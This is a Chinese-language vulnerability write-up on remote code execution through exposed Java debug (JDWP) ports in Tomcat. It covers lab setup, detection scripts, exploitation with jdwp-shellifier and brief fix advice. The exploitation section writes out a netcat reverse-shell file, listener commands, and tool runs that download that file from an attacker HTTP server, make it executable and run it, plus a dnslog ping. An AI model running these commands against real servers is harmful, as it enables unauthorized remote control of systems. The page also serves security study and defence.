

# JDWP 调试接口 RCE 漏洞

## 漏洞描述

JDWP（Java Debug Wire Protocol，Java 调试线协议）是一个为 Java 调试而设计的通讯交互协议，它定义了调试器（Debugger）和被调试 JVM（Debuggee）进程之间的交互数据的传递格式，它详细完整地定义了请求命令、回应数据和错误代码，保证了调试端和被调试端之间通信通畅。

JDWP 是 JVM 或者类 JVM 的虚拟机都支持的一种协议，通过该协议，Debugger 端和被调试 JVM 之间进行通信，可以获取被调试 JVM 的包括类、对象、线程等信息。

参考阅读：

- https://forum.butian.net/share/1232

## 环境搭建

### Windows

下载 Tomcat 到本地，在 `bin\startup.bat` 文件中添加如下代码开启 debug 模式：

```
SET CATALINA_OPTS=-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8000
```

点击运行 `startup.bat` ，以 debug 模式启动 Tomcat。

`Listening for transport dt_socket at address: 8000`，表示 JDWP 服务已经监听在 8000 端口，等待调试器连接。

### Linux

执行如下命令安装 Tomcat：

```
# 执行wget命令下载Tomcat安装包
wget http://mirror.bit.edu.cn/apache/tomcat/tomcat-8/v8.5.43/bin/apache-tomcat-8.5.43.tar.gz

# 解压安装包
tar zxvf apache-tomcat-8.5.43.tar.gz

# 将程序安装包复制到指定运行目录下
sudo mv apache-tomcat-8.5.43 /usr/local/tomcat8
```

启动方式一：

进入 Tomcat 安装目录下的 bin 目录下找到 `catalina.sh` 文件，在文件开头部分添加如下一行：

```shell
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:8000"
```

修改完成后，执行脚本 `./startup.sh` 就会以 debug 模式启动 Tomcat。

启动方式二：

进入 Tomcat 的 bin 目录，输入 `./catalina.sh jpda run` 或者 `./catalina.sh jpda start` 命令以调试模式启动 tomcat。

启动时就会出现如下信息提示：

`Listening for transport dt_socket at address: 8000`。

注意脚本中默认配置 JDWP 是监听在本地的 8000 端口，修改 `JDPA_ADDRESS` 的值对外开放此端口，在 JDK9 及以上的版本需要修改为 `JDPA_ADDRESS=*:8000` ，在 JDK9 以下版本修改为 `JDPA_ADDRESS=8000` 即可

## 漏洞检测

有三种常用方式来进行 JDWP 服务探测，原理都是一样的，即向目标端口连接后发送 JDWP-Handshake，如果目标服务直接返回一样的内容则说明是 JDWP 服务。

### Nmap

扫描会识别到 JDWP 服务，且有对应的 JDK 版本信息。

```shell
nmap -sT -sV 192.168.192.1 -p 8000
```

### Telnet

使用 Telnet 命令探测，需要马上输入 JDWP-Handshake，然后服务端返回一样的内容，证明是 JDWP 服务。

```shell
telnet 192.168.182.130 8000
```

注意：需要马上输入 JDWP-Handshake，并按下回车，不然马上就会断开。在 Linux 系统下使用 telnet 测试可以，在 Windows 系统下使用 telnet 测试不太行。

### Python

使用如下脚本扫描，直接连接目标服务器，并向目标发送 JDWP-Handshake，如果能接收到相同内容则说明目标是开启了 JDWP 服务。

```
import socket

host = "192.168.182.130"
port = 8000
try:
    client = socket.socket()
    client.connect((host, port))
    client.send(b"JDWP-Handshake")
    if client.recv(1024) == b"JDWP-Handshake":
        print("[*] {}:{} Listening JDWP Service! ".format(host, port))
except Exception as e:
    print("[-] Connection failed! ")
finally:
    client.close()
```

## 漏洞 POC

### POC1

poc1：https://github.com/IOActive/jdwp-shellifier

jdwp-shellifier 是使用 Python2 编写的，该工具通过编写了一个 JDI（JDWP 客户端），以下断点的方式来获取线程上下文从而调用方法执行命令。

该漏洞无回显，可利用 dnslog 进行探测：

```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xxx.dnslog.cn"
```

#### 反弹 shell

准备反弹 shell 文件，保存为 shell.txt：

```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```

启动 http 服务：

```
python3 -m http.server 8000
```

开启监听，需要开启 2 个监听，前面一个输入执行命令，后面一个输出命令执行结果：

```
nc -lvvp 3333
nc -lvvp 4444
```

利用 poc1 执行命令，下载 shell、文件可执行权限、执行 shell：

```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```

两个监听都收到 shell，一个输入命令，一个输出结果。



### POC2

poc2：https://github.com/Lz1y/jdwp-shellifier

该脚本是在上面一个漏洞利用脚本的基础上，修改利用方式为通过对 Sleeping 的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

## 修复建议

- 关闭 JDWP 端口，或者 JDWP 端口不对公网开放
- 关闭 Java 的 debug 模式
